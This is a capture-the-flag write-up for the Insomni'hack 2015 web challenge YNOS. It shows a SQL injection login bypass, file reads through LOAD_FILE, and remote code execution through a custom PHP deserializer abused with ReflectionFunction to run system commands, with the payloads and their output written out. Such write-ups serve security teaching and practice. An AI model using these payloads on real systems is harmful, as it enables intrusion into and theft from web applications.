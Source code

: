 # Insomni’hack CTF 2015: YNOS

**Category:** Web
**Points:** 100
**Author:** clZ
**Description:**

> <https://www.youtube.com/watch?v=O2rGTXHvPCQ>
> <a href="http://www.youtube.com/watch?v=O2rGTXHvPCQ"><img src="http://img.youtube.com/vi/O2rGTXHvPCQ/0.jpg" border="3" width="480" height="270"/></a>
>
> So many hacking scenes, so little sk1llz…
>
> Apparently [this website](http://ynos.teaser.insomnihack.ch/) likes these stupid films. Pwn them and get the flag which is in a pretty obvious file in the webroot.

## Write-up

<http://ynos.teaser.insomnihack.ch/> presents a login screen. Some random guesses reveal we can log in using the username `admin` with password `admin`. Now we can browse artists, films, and directors. Clicking any of those links triggers an Ajax request to `/INSO.RPC` with some JSON-formatted data:

```bash
$ curl -H 'Content-Type: application/json' -H 'Accept: */*' -H 'Cache-Control: no-cache' -H 'X-Requested-With: XMLHttpRequest' -H 'Cookie: AWSELB=CFABFDBD1C5BB6C16340B9340EA064028E4DF570D44D64084C319E70EE8D963FBDB0FBB63151BAE16EB9FFA8E0D4123E34E5D7D9AA1E396E163C4F960FFBFF45E6083CB961; session=fe5e3eddfcad1992c22b98cfd8d3e5b3' --data-binary '{"c":{"name":"page"},"a":{"name":"render","params":{"name":"artists"}}}' 'http://ynos.teaser.insomnihack.ch/INSO.RPC'
<fieldset>

<!-- Form Name -->
<legend>Artists</legend>


<ul class="list-group">
  <li class="list-group-item">Jonny Lee Miller</li>
  <li class="list-group-item">Angelina Jolie</li>
  <li class="list-group-item">Jesse Bradford</li>
  <li class="list-group-item">Matthew Lillard</li>
  <li class="list-group-item">Laurence Mason</li>
  <li class="list-group-item">Fisher Stevens</li>
</ul>

</fieldset>
```

### By team "curryboys" - Istvan Chung, Husayn Karimi, William Marshall

This one boils down to a boolean SQL injection attack and a code
execution from a custom PHP deserialization function. I noticed by
using Firebug that the main login screen encodes the username and
password as JSON in a POST request to /INSO.RPC on the server, in the format

```
{"c":{"name":"user"},"a":{"name":"login","params":"username|password"}}
```

Although I didn't know it at the time, it turns out that this is in fact
the serialized format of a `c`lass called `user`, requesting the
`a`ction `login`, a function to be called with the given parameters.
Placing the string `' OR 1=1 --` in for username allowed me to login and
get a session cookie quite easily. However, all this lets us do is make
another call of the form

```
{"c":{"name":"page"},"a":{"name":"render","params":"home"}}
```

(where we can substitute `"artists"`, `"films"`, `"directors"`, or
`"logout"` instead of `"home"`). Unfortunately, none of those pages are
of any use, so I went back to the original SQL injection. The challenge
states that the flag is in an "obvious" file in the webroot, so I
decided that I'd try to find where that was on the server. Since we can
get binary information out of the SQL injection (login failed or
succeeded), we can test for the presence of files using the query

```
LOAD_FILE('/path/to/file') IS NOT NULL
```

I managed to find `/etc/apache2/apache2.conf`, indicating that we were
looking at an Apache 2 server, and through trial and error eventually
found the existence of `/var/www/html/index.php`. Quick testing showed
that `flag.txt`, `flag`, `FLAG`, etc were not present, so I used binary
search to brute-force first the length, and then the contents of
`index.php` and `INSO.RPC` character-by-character, which contain
references to `classes.php` and `functions.php`, which I read out as
well. `functions.php` is reproduced here:

```
<?php

function parseParams($params) {
  if(is_array($params)) {
    return $params;
  }
  else {
    return explode("|",$params);
  }
}

function myDeserialize($object) {
  global $session;
  $class = $object["c"];
  $action = $object["a"];
  $cname = $class["name"];
  $cparams = Array();
  if(isset($class["params"])) {
    $cparams = $class["params"];
  }
  $my_obj = new $cname($cparams);
  $aname = $action["name"];
  $aparams = Array();
  if(isset($action["params"])) {
    $aparams = parseParams($action["params"]);
  }

  call_user_func_array(array($my_obj,$aname),$aparams);

}

?>
```

`myDeserialize` is called by INSO.RPC to handle every incoming request.
It lets us create an instance of any class we desire with any
constructor parameters, and then call any method on that class with any
parameters. We'd like to just call a function like `system`, but
`system` isn't the method of any class. In addition, the classes in
`classes.php` appeared to be useless for locating the flag. However,
the PHP built-in class [`ReflectionFunction`][rf] comes to the rescue, as
its `invoke` method lets us call the function we supply in the
constructor. We can use the serialization vulnerability to make the
call

```
new ReflectionFunction("system").invoke("ls")
```

We serialize this into

```
{"c":{"name":"ReflectionFunction", "params":"system"},
 "a":{"name":"invoke","params":"ls"}}
```

and we get the celebration-inducing output

```
INSO.RPC
___THE_FLAG_IS_IN_HERE___
___THE_FLAG_IS_IN_HERE___.save
artists.php
bootstrap.min.css
bootstrap.min.js
classes.php
directors.php
films.php
functions.php
home.php
index.php
jquery-2.1.1.min.js
login.php
logout.php
preload.php
```

Changing `ls` to `cat ___THE_FLAG_IS_IN_HERE___` gives us our flag:

```
INS{Gotta_L0ve_l33t_serialization_suff!}
```

[rf]: http://php.net/manual/en/class.reflectionfunction.php

## Other write-ups and resources

* none yet
